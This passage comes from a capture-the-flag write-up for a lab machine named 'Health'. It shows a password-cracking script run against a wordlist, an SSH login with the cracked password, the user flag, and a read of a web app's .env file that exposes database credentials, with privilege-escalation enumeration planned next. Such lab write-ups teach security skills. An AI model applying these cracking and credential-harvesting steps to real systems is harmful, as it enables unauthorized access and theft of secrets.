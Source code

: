 ```python
    else:
        print(count,"- Testing password:",password)

if __name__ == "__main__":
    main()
```

```bash
➜  health ./decrypt.py
Enter path to password file: /usr/share/wordlists/rockyou.txt   
1 - Testing password: 123456
2 - Testing password: 12345
[... snip ...]
70966 - Testing password: feilunhai
70967 ---=== Password is: february15 ===---
```

Test to login with cracked credentials and grab user.txt
```bash
➜  health ssh susanne@health.htb
susanne@health.htb password: february15

susanne@health:~$ id && cat user.txt
uid=1000(susanne) gid=1000(susanne) groups=1000(susanne)
a47815867df7df685c95bd170197d921
```

-------
# Root
### Step 1
As always, start with `sudo -l` to look for a easy privesc vector.
```bash
susanne@health:~$ sudo -l
[sudo] password for susanne: 
Sorry, user susanne may not run sudo on health.
```

No dice. Do some manual enumeration and look for anything interesting in `~`, `/opt`, `/var/log`, `/var/www/`, `/tmp`, `/dev/shm` or `/`
```bash
susanne@health:/var/www/html$ cat .env
[... snip ...]
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+
```

There doesn't seem to be the case of password reuse, it might be a good idea to dump the database to find more hashes to crack but I think that's to easy. Instead continue enumerating with pspy64 and/or linPEAS. 
